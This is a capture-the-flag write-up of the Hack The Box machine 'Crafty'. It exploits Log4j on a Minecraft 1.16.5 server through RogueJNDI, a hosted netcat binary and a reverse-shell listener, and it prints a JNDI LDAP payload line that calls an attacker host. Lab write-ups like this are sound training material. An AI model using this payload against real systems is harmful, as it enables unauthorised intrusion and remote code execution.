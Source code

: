 ```yaml
---
title: Crafty (HACKTHEBOX)
description: "This is a writeup for the machine Crafty from hackthebox, which is a Windows machine with difficulty easy." 
publishDate: "2025-04-24T07:2:10Z"
tags: ["HTB", "WindowsMachine", "easyMachine"]
---
```


# Enumeration

## Nmap

``nmap -sV -sC <targetIP>``

![alt text](HTBImage/crafty/nmap.png)

The results reveals that only two ports are open. 

## HTTP

Browsing to port 80, 

![alt text](HTBImage/crafty/page.png)

The website is promoting a Minecraft server and includes links to features like a store, forums, and a voting page — though they’re all marked as “coming soon.” Since there’s nothing more to explore on the website itself, our next step is to turn our attention to the Minecraft service.

## Exploiting Minecraft

From the Nmap results, we found that the Minecraft server is running version 1.16.5. Looking into potential vulnerabilities for this version points us toward the well-known Log4j exploit, which affected several versions of Minecraft’s server edition. The developers recommended updating the affected libraries to patch this issue.

To see if this vulnerability can be used in our case, we first need a compatible Minecraft client for version 1.16.5. Once we download and launch the client, we test the connection by attempting to log in using an empty password — this helps us check whether or not authentication is enforced on the server.

At the password prompt we press Enter and we connect to the target server.

![alt text](HTBImage/crafty/i.png)

## Foothold

Now that we're successfully connected to the Minecraft server, the next step in attempting exploitation is to set up a tool called RogueJNDI. To do this, we open a second terminal window and begin by cloning the RogueJNDI GitHub repository. After downloading the code, we compile the project to prepare it for use in our exploit attempt.

![alt text](HTBImage/crafty/github.png)

![alt text](HTBImage/crafty/build.png)

Once compiled, we need to grab a Netcat executable to execute on the target.

![alt text](HTBImage/crafty/downloadnetcat.png)

We host a Python web server on a third terminal to collect Netcat from.

![alt text](HTBImage/crafty/python.png)

Netcat listener in another terminal.

![alt text](HTBImage/crafty/netcat.png)

In **rogue-jndi** folder in the other terminal, we execute the following command to start malicious LDAP server.

![alt text](HTBImage/crafty/malicious-server.png)

In the first terminal, which we’re using to interact with the remote Minecraft server, we check the command-line interface (CLI) documentation and find that the /send command can be used to send messages to the server. Based on this, we build a custom message containing our payload. When this message is sent, it will trigger the exploit we’ve set up.

``/send ${jndi:ldap://10.10.16.29:1389/o=reference}``

Like this, example:

![alt text](HTBImage/crafty/exampl.png)

After sending the message containing the payload, we check our Netcat listener and see that we
have a shell on the system as svc_minecraft .

![alt text](HTBImage/crafty/exmp.png)

The user flag can be found at C:\Users\svc_minecraft\Desktop\user.txt.

# Learnings

- Minecraft Exploitation: Found vulnerable version (1.16.5) affected by Log4j.

- RogueJNDI: Cloned, built with Maven (mvn package), used for LDAP payloads.

- Python HTTP Server: Hosted Netcat executable.

- Netcat: Used to set up listener and capture reverse shell.

- Payload Delivery: Used /send ${jndi:...} to trigger exploit from Minecraft chat.

- Shell Access: Gained reverse shell as svc_minecraft.

# Reference

Pho3. (2025, January 17). Crafty walkthrough (Document No. D25.100.319) [PDF]. theblxckcicada
